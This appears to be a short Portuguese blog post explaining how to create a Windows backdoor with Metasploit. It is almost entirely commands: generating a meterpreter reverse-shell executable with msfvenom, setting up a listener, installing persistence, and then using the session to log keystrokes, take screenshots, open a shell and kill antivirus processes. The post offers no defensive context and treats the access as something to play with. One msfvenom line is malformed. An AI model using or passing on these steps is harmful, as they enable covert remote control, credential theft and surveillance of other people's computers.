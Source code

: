 ```yaml
---
layout: post
title: Criando BackDoor no Windowns
date: 2016-07-11T14:54:44.000Z
---
```

<img src='/images/fulls/back.jpg'>

-Comandos para criar a backdoor:
#msfvenom -p windows/meterpreter/reverse_tcp 192.168.0.104LHOST=(SeuIP) LPORT=443 -f exe > /root/Desktop/shell.exe 

-Comandos para configurar o modo Listening:
#msfconsole
#use exploit/multi/handler
#set payload windows/meterpreter/reverse_tcp
#set lhost (Seu IP)
#set lport 443

exploit

-Comando manutenção de acesso:

#run persistence -A -X -i 60 -p 443 -f (Seu IP)

Comandos do  meterpreter pra brinca 

Para obter ajuda das funções do Meterpreter.
meterpreter > help 

Para finalizar a sessão e sair do Meterpreter.
meterpreter > exit

Ás vezes sera necessauro manter a sessão ativa do Meterpreter  para outras finalidades ,para usar um modulo auxiliar por exemplo.
metrpreter > background

Migrar para outro processo:
meterpreter > run migrate -f

Obter shel.
meterpreter > shell

Executar um arquivo .
execute -f calc.exe

Keylogger.

meterpreter > keyscan_start INICIA O KEYLOGGER
meterpreter > keyscan_dump EXIBE AS TECLAS DIGITADAS
meterpreter > keyscan_stop FINALIZA O KEYLOGGER

Captura de tela.

meterpreter > screenshot

Finalizar processo de antivirus.

meterpreter > run killav

<a href="https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/">Mais comandos.</a>


